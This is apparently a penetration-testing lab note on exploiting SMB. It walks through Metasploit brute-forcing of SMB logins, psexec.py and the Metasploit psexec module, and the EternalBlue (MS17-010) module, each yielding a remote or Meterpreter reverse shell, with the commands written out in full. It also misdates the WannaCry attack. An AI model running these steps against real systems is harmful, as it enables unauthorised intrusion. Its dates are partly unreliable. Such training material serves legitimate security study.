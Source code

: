 # 2 - Exploiting SMB with PsExec

## **SMB**

* SMB (Server Message Block) is a network file sharing protocol that is used to facilitate the sharing of files and peripherals (printers and serial ports) between computers on a local network (LAN).
* SMB uses port 445 (TCP). However, originally, SMB ran on top of NetBIOS using port 139.
* SAMBA is the open source Linux implementation of SMB, and allows Windows systems to access Linux shares and devices.

## **SMB Authentication**

The SMB protocol utilizes two levels of authentication, namely:

* **User authentication** - Users must provide a username and password in order to authenticate with SMB server in order to access the share.
* **Share authentication** - Users must provide a password in order to access restricted share.

## **PsExec**

* PsExec is a lightweight telnet-replacement developed by Microsoft that allows you to execute processes on remote windows systems using any user's credentials.
* PsExec authentication is performed via SMB.
* We can use the PsExec utility to authenticate with the target system legitimately and run arbitrary commands or launch a remote command prompt.
* It is very similar to RDP, however, instead of controlling the remote system via GUI, commands are sent via CMD.

## **SMB Exploitation With PsExec**

* In order to utilize PsExec to gain access to a Windows target, we will need to identify legitimate user accounts and their respective passwords or password hashes.
* This can be done by leveraging various tools and techniques, however, the most common technique will involve performing an SMB login brute-force attack.
* We can narrow down our brute-force attack to only include common Windows user accounts like:
  * Administrator
* After we have obtained a legitimate user account and password, we can use the credentials to authenticate with the target system via PsExec and execute arbitrary system commands or obtain a reverse shell.



## **Practical Demonstration**

`nmap -sV -sC $ip` - basic scan to check for smb.

```bash
# Bruteforcing login creds
service postgresql start && msfconsole
search smb_login
use auxiliary/scanner/smb/smb_login
set RHOST $ip
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common-users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix-passwords.txt
set verbose false
set STOP_ON_SUCCESS true
show options  # verify options
run
```

### Using \[psexec.py] tool to authenticate SMB creds

`psexec.py Administrator@$ip cmd.exe` - authenticate the SMB credentials and also run the cmd.exe cmd which launches a windows cmd shell session for us. type `whoami` and we gained admin privilege.

## Getting a Meterpreter session with Metasploit using \[psexec]

Antivirus might detect this, because we are essentiall uploading a payload into the victim PC, though using the "psexec.py" utility above is perfectly fine.

```bash
# search psexec
use exploit/windows/smb/psexec
set RHOSTS $ip
set SMBuser Administrator
set SMBPass quertyuiop
set LHOST $kali_ip
set LPORT 4444
run
# and we get a meterpreter session.
sysinfo  # to get sys information.
whoami
```



## Exploiting Windows MS17-010 SMB Vulnerability (EternalBlue)

### **MS17-010 EternalBlue Exploit**

* &#x20;EternalBlue (MS17-010/CVE-2017-0144) is the name given to a collection of Windows vulnerabilities and exploits that allows attackers to remotely execute arbitrary code and gain access to a Windows system and consequently the network that the target system is a part of.
* The EternalBlue exploit was developed by the NSA (National Security Agency) to take advantage of the MS17-010 vulnerability and was leaked to the public by a hacker group called the Shadow Brokers in 2017.
* The EternalBlue exploit takes advantage of a vulnerability in the Windows SMBv1 protocol that allows attackers to send specially crafted packets that consequently facilitate the execution of arbitrary commands.
* The EternalBlue exploit was used in the WannaCry ransomware attack on June 27 2017 to exploit other Windows systems across networks with the objective of spreading the ransomware to as many systems as possible.
* This vulnerability affects multiple versions of Windows:
  * Windows Vista
  * Windows 7
  * Windows Server 2008
  * Windows 8.1
  * Windows Server 2012
  * Windows 10
  * Windows Server 2016
* Microsoft released a patch for the vulnerability in March 2017, however, many users and companies have still not yet patched their systems.
* The EternalBlue exploit has a MSF auxiliary module that can be used to check if a target system if vulnerable to the exploit and also has an exploit module that can be used to exploit the vulnerability on unpatched systems.
* The EternalBlue exploit module can be used to exploit vulnerable Windows systems and consequently provide us with a privileged meterpreter session on the target system.
* In addition to MSF modules, we can also manually exploit the vulnerability by utilizing publicly available exploit code.

### **Tools & Environment**

* Auto-Blue-MS17-010: [https://github.com/3ndG4me/AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010)
* Target system: Windows Server 2008 R2
* Penetration Testing distribution: Kali Linux



## **Practical Demonstration**

`sudo nmap -sV -p 445 -O $ip` - normal scan.

`sudo nmap -sV -p445 --script=smb-vuln-ms17-010 $ip` - Perform a scan while checking if the target is vulnerable to the EternalBlue exploit.

### Exploit Manually

[https://github.com/3ndG4me/AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010) - using this script, clone the repo, install the requirements, follow the steps.

### Exploit Automatically

```bash
use exploit/windows/smb/ms17_010_eternalblue
options
set RHOSTS $ip
set LHOST $kali
set LPORT 4444
run
# we get a meterpreter.
getuid
sysinfo # NT\Authority
```



